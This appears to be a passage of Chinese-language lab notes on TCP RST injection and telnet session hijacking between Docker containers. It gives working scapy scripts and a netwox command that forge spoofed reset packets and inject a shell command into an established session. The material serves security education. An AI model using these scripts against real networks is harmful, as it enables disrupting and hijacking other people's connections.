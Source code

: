     SRC  = "172.17.0.3"
    DST  = "172.17.0.2"
    PORT = 23

    def spoof(pkt):
        old_tcp = pkt[TCP]
        old_ip  = pkt[IP]

        #############################################
        ip  =  IP( src   = old_ip.dst , 
                dst   = old_ip.src
                )
        tcp = TCP( sport = old_tcp.dport , 
                dport = old_tcp.sport , 
                seq   = old_tcp.ack ,
                flags = "R"
                ) 
        #############################################

        pkt = ip/tcp
        send(pkt,verbose=0)
        print("Spoofed Packet: {} --> {}".format(ip.src, ip.dst))

    f = 'tcp and src host {} and dst host {} and dst port {}'.format(SRC, DST, PORT)
    print(f)
    sniff(filter=f, prn=spoof,iface='docker0')


## TCP 会话劫持

在客户机和服务器在telnet已经连接的情况下进行

### netwox

    netwox 40 --ip4-src 172.17.0.3 --ip4-dst 172.17.0.2 --tcp-src 41296 --tcp-dst 23 --tcp-seqnum 4182750606 --tcp-acknum 198431585 --tcp-ack --tcp-window 227 --tcp-data "6c730d00"

使用此命令需要在wireshark查看情况，客户机会卡死

### scapy

手动需要抓包分析seq和ack

    #!/usr/bin/python3
    from scapy.all import *

    print("SENDING SESSION HIJACKING PACKET.........")

    ip  = IP(src="172.17.0.3", dst="172.17.0.2")
    tcp = TCP(sport=41378, dport=23, flags="A", seq=4267048152, ack=2850155353)
    data = "\n touch /tmp/myfile.txt\n"
    pkt = ip/tcp/data
    send(pkt, verbose=0)

自动还是方便
